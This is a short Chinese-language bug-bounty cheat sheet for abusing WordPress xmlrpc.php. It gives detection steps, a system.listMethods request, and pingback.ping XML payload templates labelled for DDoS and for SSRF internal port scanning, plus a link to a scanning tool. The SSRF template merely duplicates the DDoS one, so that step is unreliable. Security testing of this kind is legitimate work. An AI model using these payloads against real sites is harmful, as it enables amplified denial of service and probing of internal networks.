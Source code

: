 

# xmlrpc.php

这是WordPress上常见的问题之一。要想利用这个错误配置赚钱，你必须充分利用它，并且必须正确地展示其影响。



### 探测

- 访问 site.com/xmlrpc.php
- 仅获取 POST 请求的错误消息

### 利用步骤

- 拦截请求并将方法 GET 更改为 POST
- 列出所有方法

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

- 检查 pingback.ping 指令是否存在
- 执行 DDOS

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

- 执行 SSRF（仅限内部 PORT 扫描）

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

### 自动化 XMLRPC 扫描的工具

[XMLRPC-Scan](https://github.com/nullfil3/xmlrpc-scan)

### 文章
